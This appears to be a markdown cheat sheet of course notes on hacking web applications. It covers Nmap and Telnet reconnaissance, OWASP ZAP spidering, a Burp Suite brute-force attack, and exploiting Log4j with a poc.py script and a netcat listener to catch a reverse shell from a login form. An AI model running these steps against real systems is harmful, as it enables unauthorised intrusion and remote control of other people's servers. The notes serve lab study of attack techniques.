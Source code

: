# Hacking Web Applications

## Nmap

**Perform Web Application Reconnaissance using Nmap**

```bash
nmap -T4 -A -v <ip/URL>
```

## Telnet

**Perform Web Application Reconnaissance using Telnet**

```bash
telnet <ip/URL> 80 (can be any port)

GET / HTTP/1.0 (Press enter twice)
```

## OWASP ZAP

**Perform Web Spidering using OWASP ZAP**

scan the using URL and see in spider tab

## Burp Suite

**Perform a Brute-force Attack using Burp Suite**

capture the request sent to the Intruder in this case It uses a Cluster bomb Attack.

## Exploit Log4j

**Gain Access by exploiting Log4j Vulnerability**

**Extract and Setup Jdk**

```bash
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
```

**Update the JDK Path in the Poc.py file**

{% hint style="info" %} Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"

Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"

Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java" {% endhint %}

**Create a Netcat Listener**

```bash
nc -lvp 9001
```

**Create a Payload**

```bash
python3 poc.py --userip <attackerip> --webport <website running onport> --lport <Listeningport>
```

{% hint style="info" %} Copy the send me payload and paste in the username field and enter any random password and press Login {% endhint %}

then to responder

```bash
nc -lvp 9001
```